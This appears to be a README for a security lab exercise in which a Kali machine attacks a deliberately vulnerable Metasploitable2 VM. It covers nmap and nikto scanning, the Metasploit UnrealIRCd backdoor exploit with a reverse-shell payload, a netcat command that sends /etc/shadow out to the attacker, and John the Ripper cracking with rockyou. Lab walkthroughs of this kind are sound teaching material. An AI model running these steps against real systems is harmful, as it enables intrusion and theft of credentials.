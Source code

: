 # SoftwareSec-Metasploitable2

## Overview

Attempt to get a shell onto a remote system (Metasploitable2) and extract its password and shadow files for password cracking. Using SSH to verify results.

## Set Ups

#### Virtual Box

Set up a local nat network

File > Preferences > Network > add Nat Network

#### Kali

Settings > Network > Attach to > Nat Network

update: ```$apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y```

#### Metasploitable

Settings > Network > Attach to > Nat Network

username: msfadmin

password: msfadmin

## Procedure

### Network discovery

Finding your own IP

```$ifconfig```

Discovering other IPs on your network

```$nmap -sP 10.0.2.0/24```

After finding target on network, run ```nmap``` for ports and services discover

```$nmap <Target IP>```

Notice that there is an HTTP server running, use ```nikto``` to find vulnerabilities. Default port is 80

```nikto -h <Target IP>```

```nikto``` returns a list of vulnerabilities for the server. Google these vulnerabilities and their potention exploits

Running Metasploit frameworks. Either use the fast access side bar in Kali or Applications > 08 - Exploitation > Metasploit Frameworks.

The first time starting metasploit will take a little bit as it needs to initialize a database.  

### Finding Exploits 

Notice that there is an IRC service running on port 6667 during our nmap port scan. There is a backdoor exploit we can use. To search for a unix irc exploit 

```search type:exploit platform:unix irc```

returns ```exploit/unix/irc/unreal_ircd_3281_backdoor```

To use the exploit:

```use exploit/unix/irc/unreal_ircd_3281_backdoor```

Set the target host:

```set RHOST <Target IP>```

Show available payloads

```show payloads```

There is a reverse tcp payload. We can learn more about it with 

```info cmd/unix/reverse```

To use the payload

```set payload cmd/unix/reverse```

We need to set some options such as LHOST

```show options```

```set LHOST <Local IP>```

Run the exploit

```exploit```

We now have a shell on the remote system. We can check that we're root with ```whoami```. We can also check our IP with ```ifconfig```. What we really want are the password hashes in the shadow file located in /etc/shadow.

```cd /etc/```

We will just ```netcat``` to transfer the file to our local machine from the stolen shell.

On local machine

```nc -lp 1234 > shadow```

On shell

```cat shadow | nc <Local IP> 1234```

We can now crack those passwords with john the ripper. Simply copy the shadow file into a hash.txt

```cp shadow hash.txt```

Run john

```john hash.txt```

We can also run john with its many built in wordlists.

```john -wordlist=/usr/share/wordlists/rockyou.txt hash.txt```

Once the process is done, we can check our cracked passwords

```john -show hast.txt```

We should now have credentials for users on the remote machine. We can verify our passwords are correct using SSH

```ssh username@<TargetIP>```

### Sources

#### Downloads

https://www.virtualbox.org/

https://www.kali.org/

https://metasploit.help.rapid7.com/docs/metasploitable-2

#### References

https://metasploit.help.rapid7.com/v1/docs/exploitation

https://metasploit.help.rapid7.com/docs/metasploitable-2-exploitability-guide

https://docs.kali.org/general-use/starting-metasploit-framework-in-kali

https://tools.kali.org/information-gathering/nmap

https://tools.kali.org/information-gathering/nikto

https://tools.kali.org/password-attacks/john
